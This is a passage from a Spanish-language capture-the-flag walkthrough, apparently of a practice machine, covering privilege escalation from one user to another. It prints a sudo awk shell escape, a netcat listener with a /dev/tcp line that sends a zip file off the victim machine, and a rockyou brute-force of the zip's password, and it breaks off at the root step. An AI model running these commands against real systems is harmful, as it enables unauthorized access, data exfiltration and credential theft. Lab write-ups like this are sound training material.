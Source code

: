 Podemos ejecutar como el usuario pylon, sin poner contraseña, el binario `/usr/bin/awk`. Buscamos en [gtfobins](https://gtfobins.github.io/):

![image](https://github.com/user-attachments/assets/e46f2124-64eb-42bb-9656-9bda046904eb)

Así que para ejecutar una bash como el usuario pylon hacemos:

```python
sudo -u pylon awk 'BEGIN {system("/bin/bash")}'
```

![image](https://github.com/user-attachments/assets/b0a26293-3a3d-4c58-a939-12d6968882cd)

### pinguino

Siendo el usuario pylon, si ejecutamos `sudo -l` nos pide contraseña, pero no la sabemos. Si vamos a `/home/pylon` vemos un archivo zip:

![image](https://github.com/user-attachments/assets/219ee695-a354-4865-a536-cb4616ca7356)

El archivo está protegido por contraseña. Podemos intentar hacer fuerza bruta de contraseñas, con [PinguZip](https://github.com/Maalfer/PinguZip) o [Zip_Bruteforce](https://github.com/4bytess/zip_bruteforce). Podemos o bien copiar el código de la herramienta que vayamos a usar y pegarla en un archivo dentro de la máquina víctima, o trasladarla a nuestra máquina local.

Si quremos trasladarla, como no está python3 instalado en la máquina víctima, no podremos montar un servidor HTTP. Se puede usar esta alternativa:

Ejecutar este comando en local:

```python
nc -nlvp 9090 > secretitotraviesito.zip
```

Ejecutar este comando en la máquina víctima:

```python
cat < secretitotraviesito.zip > /dev/tcp/172.17.0.1/9090
```

Ahora ya tenemos el zip en nuestra máquina y podemos hacer fuerza bruta más cómodamente.

```python
zip_bruteforce.sh /usr/share/wordlists/rockyou.txt secretitotraviesito.zip
```

![image](https://github.com/user-attachments/assets/00f8b502-8185-40c3-bcb2-12339e7dc54b)

Vemos que la contraseña es chocolate1. Descomprimimos el zip con la herramienta `unzip` y se nos crea un archivo de texto llamado notitachingona.txt:

![image](https://github.com/user-attachments/assets/5662c6ee-4f3a-4dba-8eee-f5fa45c4d644)

Contiene las credenciales del usuario pinguino.

### root

Ejecutamos `sudo -l` como el usuario pinguino:

